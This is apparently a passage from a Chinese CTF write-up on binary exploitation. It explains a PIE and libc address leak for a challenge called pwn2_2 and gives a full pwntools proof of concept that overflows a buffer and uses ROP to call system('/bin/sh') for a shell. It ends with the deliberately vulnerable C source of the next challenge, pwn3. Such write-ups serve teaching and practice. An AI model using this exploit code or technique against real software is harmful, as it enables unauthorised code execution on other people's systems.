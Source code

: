 另一方面我们从刚才write出来的0x100字节中可以得到开了pie以后code段的基地址和libc中某些函数地址的信息。

![](read_write_7769e46c0e37d06fb43528af42054741.png)

```python
cn.recvuntil('bbbb')
base = u32(cn.recv(4)) - 0x655
cn.recv(4*3)
p_libc_start_main = u32(cn.recv(4)) - 247
cn.recv()
```

有了这两点就可以直接算出system和/bin/sh的地址，以及欲跳转到的代码的地址，直接用一次rop调用system拿shell即可。

下面就是不需要爆破的poc：

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']
cn = process('./pwn2_2')
bin = ELF('./pwn2_2')
libc = ELF('/lib32/libc.so.6')
p3ret = 0x000006D9

pay = 'a'*0x28 + 'bbbb' + chr(0x55)# chr(0x55) change the ret addr to main
gdb.attach(cn)
raw_input()
cn.send(pay)
cn.recvuntil('bbbb')
base = u32(cn.recv(4)) - 0x655 # 0x655 is the offset of main
cn.recv(4*3)
p_libc_start_main = u32(cn.recv(4)) - 247
cn.recv()

print "base:" + hex(base)
p_system = p_libc_start_main - libc.symbols['__libc_start_main'] + libc.symbols['system']
print hex(p_libc_start_main - libc.symbols['__libc_start_main'])
p_binsh = p_libc_start_main - libc.symbols['__libc_start_main'] + libc.search('/bin/sh').next()

pay = 'a'*0x28 + 'bbbb' + p32(p_system) + 'bbbb' + p32(p_binsh)

cn.send(pay)
cn.recv()
cn.interactive()
```

## pwn3

代码：

```
#include <unistd.h>

void fun(){
    char buffer[0x20];
    read(0,buffer,0x30);
    write(1,buffer,0x30);
}

int main(){
    fun();
    return 0;
}
```
